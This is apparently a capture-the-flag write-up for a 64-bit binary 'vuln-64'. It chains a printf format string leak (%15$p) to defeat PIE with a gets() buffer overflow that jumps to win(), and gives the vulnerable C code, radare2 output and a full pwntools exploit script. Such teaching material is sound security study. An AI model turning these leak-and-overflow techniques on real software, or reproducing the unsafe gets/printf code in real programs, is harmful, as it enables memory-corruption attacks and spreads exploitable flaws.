




# Exploit Writeup: vuln-64

## Challenge Overview

**Binary Name:** `vuln-64`
**Architecture:** 64-bit ELF  
**Protections:**  
- NX: Enabled  
- PIE: Enabled  
- Stack Canaries: Not Present  
- RELRO: Partial  

The binary asks for your name and prints it using `printf()`, making it vulnerable to a **format string vulnerability**. Later, it takes a message input with `gets()`, leading to a **buffer overflow**.

---

## Vulnerability Analysis

### 1. Format String Leak

The input to `name?` is passed directly into `printf()` without format sanitization:

```c
char name[32];
puts("What's your name?");
gets(name);
printf("Nice to meet you ");
printf(name);
````

This allows us to leak addresses on the stack using `%p`. Specifically, `%15$p` leaks the return address to `main()` which helps bypass PIE.


### 2. Buffer Overflow

The message is read again using `gets()`:

```c
puts("What's your message?");
gets(buffer);
```

Since there’s no bounds checking, we can overflow the buffer and control the return address to redirect execution to `win()`.

---

## 🛠 Exploitation Steps

### Step 1: Leak `main()` address to defeat PIE

We send `%15$p` as the name to leak the return address pointing into `main()`:

```python
p.sendline('%15$p')
leak = int(p.recvline().strip(), 16)
```



### Step 2: Calculate PIE base address

Using symbols from `rabin2` or `ELF()` from pwntools, we find:

```bash
$ rabin2 -s ./vuln-64 | grep main
65  0x000011d6 0x000011d6 GLOBAL FUNC   21       main
```

So PIE base = leaked address - 0x11d6.

```python
elf.address = leak - elf.symbols['main']
```

### Step 3: Overflow buffer and call `win()`

Find offset using raag2:

```bash
$ ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
```

first we need to find the position of return addreess on the stack 

```bash
[0x7071a6c1f5c0]> s main; pdf
            ; DATA XREF from entry0 @ 0x5ca75319909d(r)
┌ 21: int main (int argc, char **argv, char **envp);
│           0x5ca7531991d6      55             push rbp
│           0x5ca7531991d7      4889e5         mov rbp, rsp
│           0x5ca7531991da      b800000000     mov eax, 0
│           0x5ca7531991df      e881ffffff     call sym.vuln
│           0x5ca7531991e4      b800000000     mov eax, 0
│           0x5ca7531991e9      5d             pop rbp
└           0x5ca7531991ea      c3             ret
[0x5ca7531991d6]>
```

we need to find the value `0x5ca7531991e4` on the stack

```bash
[0x5ca7531991d3]> pxq @ rsp
```



---

<br>




boom we get the offset

Then, build the payload:

```python
payload = b'A' * 40
payload += p64(elf.symbols['win'])
```

---

## 💥 Final Exploit

```python
from pwn import *

context.binary = elf = ELF('./vuln-64')
context.log_level = 'debug'
p = process()

# Step 1: Leak address of main()
p.recvuntil('name?\n')
p.sendline('%15$p')

p.recvuntil('you ')
leak = p.recvline().strip()
elf_leak = int(leak, 16)
log.success(f"Leaked address of main(): {hex(elf_leak)}")

# Step 2: Calculate PIE base
elf.address = elf_leak - elf.symbols['main']
log.success(f"PIE base address: {hex(elf.address)}")

# Step 3: Build payload to call win()
payload = b'A' * 40
payload += p64(elf.sym['win'])

# Step 4: Send payload
p.recvuntil('message?\n')
p.sendline(payload)

# Step 5: Output result
print(p.clean().decode(errors='ignore'))

```



---

## ✅ Conclusion

This challenge combines **format string** for address leak and **buffer overflow** for control of execution. By leaking PIE base and overwriting return address, we redirect execution to `win()`.

---

## 🔧 Tools Used

* [pwntools](https://docs.pwntools.com)
* [r2 / rabin2](https://rada.re/n/)


---

## 📌 Notes

* `%15$p` worked because in 64-bit, the first few arguments are passed in registers. from 1-6
* `gets()` should never be used in real code due to its lack of bounds checking.


---

to learn more about Format string attack [click](https://owasp.org/www-community/attacks/Format_string_attack) here
